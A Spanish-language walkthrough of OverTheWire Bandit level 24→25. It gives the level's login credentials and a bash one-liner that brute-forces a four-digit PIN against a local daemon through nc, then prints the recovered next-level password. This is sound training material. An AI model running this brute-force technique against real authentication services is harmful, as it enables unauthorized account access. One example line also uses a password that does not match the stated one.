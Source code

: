 # Level 24 - 25
---
## Objetivo 
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.  
You do not need to create new connections each time

---
## Datos de acceso al nivel 

```
Server  : **bandit.labs.overthewire.org**
User    : **bandit24**
Pasword : **VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar**
Puerto  : 2220 
```

---
## Solución 

**Primero se accede al servidor**
```bash
ssh bandit24@bandit.labs.overthewire.org -p 2220
```
**Contraseña de usuario**
```
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
```

**Después se hace lo siguiente en la consola**

```bash

nc -v localhost 30002
# Connection to localhost (127.0.0.1) 30002 port [tcp/*] succeeded!
# I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line,
# separated by a space.
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 123
# Wrong! Please enter the correct pincode. Try again.
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 987
# Wrong! Please enter the correct pincode. Try again.

## hacerlo de este modo genera mucho espacio en la consola 
for i in {0000..9999}; do echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i ; done
# UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0000
# UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0001
# UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0002
# UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0003

```

**Forma correcta u optima** 

```bash
## esta es la forma correcta ya que evita que la consola se llene de basura 
for i in {0000..9999}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done | nc localhost 30002 | grep -v Wrong

# I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single
# line, separated by a space.
# Correct!
# The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d
```

**Resultado final**

```
p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d
```

---
## Notas Adicionales 

Al momento de ingresar un comando también se le puede aplicar un poco de programación  para que el comando sea mas eficiente.  

|**Comando** | **Descripción** |
|:---------:|:-------------|
| grep -v |con esta opción, se nos muestran las líneas que no coinciden con el patrón que hemos buscado|

---
## Referencias 
[Grep: Qué es y cómo usarlo | OpenWebinars](https://openwebinars.net/blog/grep-que-es-y-como-usarlo/#:~:text=grep%20-E%20%27patr%C3%B3n1%27%20fichero.txt%20%7C%20grep%20-E%20%27patr%C3%B3n2%27.,excepto%20el%20patr%C3%B3n%20dado.%20grep%20-v%20%27patr%C3%B3n1%27%20fichero.txt.)
